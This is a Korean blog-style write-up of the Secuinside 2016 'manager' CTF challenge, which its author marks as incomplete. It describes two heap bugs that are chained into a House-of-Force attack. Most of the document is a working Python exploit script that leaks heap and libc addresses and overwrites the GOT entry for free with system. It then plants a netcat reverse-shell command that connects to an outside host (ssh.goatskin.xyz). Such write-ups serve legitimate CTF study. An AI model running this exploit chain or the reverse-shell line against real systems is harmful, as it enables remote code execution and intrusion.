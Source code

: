 ```yaml
---
layout: post
title: secuinside 2016 manager writeup (incomplete)
category: writeup
---
```


KR version

이번에는 끝까지 풀지를 못해서 ㅠㅠ flag를 얻지는 못했다.
manager 문제는 allocation simulator 역할을 하는 바이너리가 주어져있고,
힙을 조작해서 취약점을 만드는 문제이다.

분석을 해 보면, while문을 통해 16바이트짜리 쿼리를 계속 보내는 것을 알 수 있다.
|cmd len check index| (각 4바이트) 형태로 되어있고, 

check = 15

cmd = 0~5 (0 : init, 1 : write, 2 : malloc, 3 : realloc, 4 : print, 5 : free)

index = 0 ~ 9


취약점은 크게 두가지가 있다. 

1. malloc에서 길이를 구조체에 저장하는데, 실제 malloc된 크기는 4096이 아니면서 구조체에 4096을 저장할 수 있다. (buffer overwrite가능)

2. realloc에서 음수 크기가 가능하다.

두 취약점을 조합해 House-of-force 기법을 쓸 수 있다. 하지만 릭이 없어서 어디에 write를 할 지 모르는데, House-of-force는 offset을 기반으로 움직이기 때문에 힙의 앞부분으로도 덮어쓸 수 있다. 이것을 이용하여 처음의 40byte 구조체를 덮어쓰면, malloc할 때의 주소를 읽을 수 있고, heap_base를 찾을 수 있다.

heap_base와 binary base가 0x???000 정도 차이나는 것을 이용(차이는 컴퓨터마다 일정) 하여 \x7fELF가 나오는 부분을 찾아 binary base를 계산한다.

이후 free의 pointer를 system으로 바꾸고, 힙에 "nc myserver 10291 &#124; /bin/sh &#124; nc myserver 10292" 처럼 reverse shell을 만든 후 free를 해주면 완성!

```python
import pwnbox
import struct

#p = pwnbox.pipe.SocketPipe('chal.cykor.kr',22222)
p = pwnbox.pipe.SocketPipe('127.0.0.1',22222)


def query(command,length,selector):
    p.write(struct.pack("<IIII",command,length,15,selector))

def init_cell(num):
    query(0,0,num)

def set_cell_len(num,len_):
    query(2,len_,num)

def write_cell(num,data):
    query(1,0,num)
    p.write(data)

def read_cell(num):
    query(4,0,0)
    p.write(struct.pack("<I",num))

def free_cell(num):
    query(5,0,0)
    p.write(struct.pack("<I",num))

def realloc_cell(num,len_,data):
    query(3,0,0)
    p.write(struct.pack("<II",len_,num))
    p.write(data)

def fail():
    p.write("\x00"*16)

def a_read_byte(addr):
    spayload = ""
    spayload += struct.pack("<q",-1)
    spayload += struct.pack("<i",-1) # len
    spayload += struct.pack("<i",-1)
    spayload += struct.pack("<q",addr) # buf
    spayload += struct.pack("<i",-1) # cmd
    spayload += struct.pack("<i",-1) # chk
    spayload += struct.pack("<i",1) # buf_set
    spayload += struct.pack("<i",-1)
    realloc_cell(0,0x100,"\xff"*0x10 + spayload.ljust(0xf0,'\x00'))
    read_cell(3)
    p.read_until('3=> ')
    retVal = p.read_byte(1)
    if retVal == '\n' and p.read_byte(1) == '\n':
        retVal = '\x00'
    return retVal

def a_write(addr,data):
    spayload = ""
    spayload += struct.pack("<q",-1)
    spayload += struct.pack("<i",len(data)) # len
    spayload += struct.pack("<i",-1)
    spayload += struct.pack("<q",addr) # buf
    spayload += struct.pack("<i",-1) # cmd
    spayload += struct.pack("<i",-1) # chk
    spayload += struct.pack("<i",1) # buf_set
    spayload += struct.pack("<i",-1)
    realloc_cell(0,0x100,"\xff"*0x10 + spayload.ljust(0xf0,'\x00'))
    realloc_cell(3,len(data),data)


def a_read(addr,len_):
    x = ""
    for i in range(len_):
        x = x + a_read_byte(addr+i)
    return x

p.read_until('alloc manager!')

init_cell(0)
init_cell(3)
init_cell(5)
init_cell(6)
init_cell(7)
set_cell_len(5,0x180)

set_cell_len(5,4097)

write_cell(5,('A'*0x188+struct.pack("<Q",0xffffffffffffffff)).ljust(0x1000))

realloc_cell(3,4294966528,"a") # -768

#p.interact()

realloc_cell(0,0x100,"\xff"*0x20)
#write_cell(0,"\xff"*0x10+spayload.ljust(0xf0,'\x00'))

read_cell(0)
p.read_until('0=> ')
x = p.read_byte(0x20+8)

heap_base = struct.unpack('<Q',x[0x20:])[0] & 0x0000fffffffff000

print "Heap base : %x" % heap_base

bin_base = heap_base - 0x1d0b000 # in local machine

got_malloc = bin_base + 0x2040E8
got_free = bin_base + 0x204018

libc_malloc = struct.unpack("<Q",a_read(got_malloc,8))[0]

print "%x" % libc_malloc
# libc (in local machine)
libc_base = libc_malloc - 0x82750
libc_system = libc_base + 0x46640
print "%x" % libc_base
a_write(got_free, struct.pack("<Q",libc_system))

print "%x" % struct.unpack("<Q",a_read(got_free,8))[0]

a_write(heap_base+0x1000,"nc ssh.goatskin.xyz 10291 | /bin/sh | nc ssh.goatskin.xyz 10292\x00")


free_cell(3)


p.interact()
```

안타까운 점은 문제서버 libc의 malloc과 다르기 때문인지 offset이 안맞아서 서버 익스는 못했다...